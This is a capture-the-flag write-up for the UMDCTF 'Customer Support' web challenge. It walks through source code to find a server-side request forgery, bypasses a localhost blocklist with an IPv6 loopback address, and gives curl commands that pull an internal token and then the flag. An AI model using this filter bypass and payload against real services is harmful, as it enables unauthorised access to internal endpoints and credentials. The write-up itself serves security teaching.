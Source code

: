 ```yaml
---
title: "UMDCTF: Customer Support"
date: 2022-03-06T19:09:57-05:00
image: /UMDCTF/UMDCTF.png
tags:
    - UMDCTF
---
```




![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144115.png)

For this challenge we were given 
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144230.png)
So I stared out by opening the Dockerfile 
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144325.png)
In the docker file we can see the starting command is ```npm run startall```
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144449.png)
Looking at the package.json we can see two service being started with start all script.

![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144621.png)
In app.js inside microservice we can see two path that returns token.
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144728.png)
This microservice is running in port 3001. The first thing that I tried to do was open that port, but i couldn't access it. 
*Time for more code analysis*
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306145052.png)
Here I can see that there's some request being sent, and it's using our input to send the request.
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306145540.png)
There is a filter that checks for any 'localhost', '127.0.0.1' or '0.0.0.0' in the message body. All we need to do now is figure out a way to access localhost using something that's not filtered. In this case we can use `::1/28`, so if we try to access `http://::1/28/auth` 
```bash
curl -X POST https://customer-support-p558t.ondigitalocean.app/api/contact -H 'Content-Type: application/json' -d '{"name":"ts","email":"test@test.com","subject":"test","message":"http://::1/28/auth"}'
```

![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306150537.png)
This will return a token. 

What can we do with the token?
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306150617.png)
there's an api that will take the token and return the flag.
We need to pass the token in cookie Authorization. 

```bash
curl --cookie 'Authorization=Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IlVNRENURiIsImIiOiJUb2RheSBJIHdpbGwgbGl2ZSBpbiB0aGUgbW9tZW50LCB1bmxlc3MgaXQgaXMgdW5wbGVhc2FudCwgaW4gd2hpY2ggY2FzZSwgSSB3aWxsIGVhdCIsImlhdCI6MTcxNjIzOTAyMn0.7SoLIpd9dL9d3Lx84vbAqlLCE5rR3fWqN8ZWLx41QDE' https://customer-support-p558t.ondigitalocean.app/api/auth
```
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306151214.png)
This gives me the flag

```
UMDCTF{I_b3t_th@t_c00kie_t4sted_g00d_d!dnt_it!U4L_p4rs1ng_suck5}
```
